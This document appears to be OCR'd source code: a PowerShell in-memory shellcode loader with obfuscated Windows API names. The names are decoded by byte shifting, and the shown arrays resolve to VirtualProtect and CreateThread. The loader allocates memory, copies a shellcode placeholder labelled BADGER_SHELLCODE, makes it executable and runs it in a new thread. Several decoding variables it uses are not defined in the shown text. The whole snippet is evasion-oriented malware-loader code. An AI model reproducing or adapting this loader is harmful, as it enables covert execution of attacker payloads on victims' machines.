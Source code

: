 ```powershell
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $yhe4c)), (Get-TDef @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr].MakeByRefType()) ([UInt32])))).Invoke(0, 0, $vbuf, [IntPtr]0, 0, [ref](0)) | Out-Null
```

